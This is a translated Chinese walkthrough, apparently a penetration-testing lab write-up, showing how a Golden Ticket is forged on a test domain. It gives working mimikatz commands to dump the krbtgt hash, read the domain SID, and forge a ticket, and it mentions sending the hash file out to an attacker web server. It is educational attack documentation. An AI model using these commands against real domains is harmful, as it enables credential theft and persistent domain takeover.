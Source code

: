 译者注：Golden Ticket是指伪造的TGT(Ticket Granting Ticket)，同理Silver Ticket是伪造的TGS(Ticket Granting Server)

Golden Ticket攻击能够让我们创建离线的Kerberos TGT来进行未授权访问，并且伪造任何域用户。此外，它的有效期是十年，换言之只要它被创建了，即使域管理员的凭证发生了改变，也会有效。这是一个权限维持的极佳案例，不是吗？

为了实现这个任务，我们需要的有：

**krbtgt哈希**

**域SID**

**用户名(这里是Administrator)**

**域名称（这里是SUPERCOMPANY）**

以类似的方式(SRVWSUS上的端口转发，改良过的SMBExec等)，我们目前在域控制器上拿到了一个新的本地管理员权限的Powershell。

我们执行了混淆过的mimikatz来获取活动目录用于数据，并将他们保存在hash.txt中:



```
invoke-mymy -command ‘privilege::debug “LSADump::LSA /inject”‘ &gt; hash.txt
The mimikatz script was without the auto-invoke command at the end of the file. We exfiltrated the hash file to our web server. This was its content:
RID : 000001f6 (502)
User : krbtgt
* Primary
LM :
NTLM : 3003567af268a4aXXXXXXXXXXXXXXXXX
Using get-addomain cmdlet, which is automatically imported on Domain Controllers, we got the domain SID:
PS C:test&gt; get-addomain
AllowedDNSSuffixes : {}
ChildDomains : {}
ComputersContainer : CN=Computers,DC=supercompany,DC=local
DeletedObjectsContainer : CN=Deleted Objects,DC=supercompany,DC=local
DistinguishedName : DC=supercompany,DC=local
DNSRoot : supercompany.local
DomainControllersContainer : OU=Domain
Controllers,DC=supercompany,DC=local
DomainMode : Windows2012R2Domain
DomainSID : S-1-5-21-3534665177-2148510708-2241433719
…
```

注意：我们可以从由mimikatz获得的管理员（其uid = 500）获取域SID：

```
S-1-5-21-3534665177-2148510708-2241433719-500
```

现在是时候创建我们的Golden Ticket了



```
invoke-mymy -command ‘”privilege::debug” “Kerberos::golden /admin:Administrator /domain:supercompany.LOCAL /sid:S-1-5-21-3534665177-2148510708-2241433719 /krbtgt:3003567af268a4a94e26f410e84353f1 /ticket:admin.krb”‘
.#####. mimikatz 2.1 (x64) built on Nov 10 2016 15:31:14
.## ^ ##. “A La Vie, A L’Amour”
## /  ## /* * *
##  / ## Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
‘## v ##’ http://blog.gentilkiwi.com/mimikatz     (oe.eo)
‘#####’     with 20 modules * * */
mimikatz(powershell) # privilege::debug
Privilege ’20’ OK
mimikatz(powershell) # Kerberos::golden /admin:Administrator /domain:supercompany.LOCAL /sid:S-1-5-21-3534665177-2148510708-2241433719 /krbtgt:3003567af268a4a94e26f410e84353f1 /ticket:admin.krb
User     : Administrator
Domain    : supercompany.LOCAL (SUPERCOMPANY)
```